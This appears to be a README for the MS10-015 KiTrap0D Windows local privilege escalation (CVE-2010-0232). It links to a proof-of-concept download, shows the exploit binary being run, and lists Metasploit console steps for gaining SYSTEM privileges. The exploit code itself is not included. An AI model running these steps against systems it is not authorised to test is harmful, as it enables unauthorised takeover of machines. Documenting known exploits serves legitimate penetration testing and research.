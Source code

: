 # MS10-015

```
This module will create a new session with SYSTEM privileges via the KiTrap0D exlpoit by Tavis Ormandy. 
If the session is use is already elevated then the exploit will not run. 
The module relies on kitrap0d.x86.dll, and is not supported on x64 editions of Windows.
```
- The POC was from [@Offensive Security](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/11199.zip)

Vulnerability reference:
 * [MS10-015](https://technet.microsoft.com/en-us/library/security/ms10-015.aspx)
 * [CVE-2010-0232](https://www.exploit-db.com/exploits/11199/)
 
## Usage
c:\\> vdmallowed.exe

![win2003](win2003.png)

## load the module within the Metasploit console
```
msf > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > show targets
    ...targets...
msf exploit(ms10_015_kitrap0d) > set TARGET <target-id>
msf exploit(ms10_015_kitrap0d) > show options
    ...show and set options...
msf exploit(ms10_015_kitrap0d) > exploit
    
```





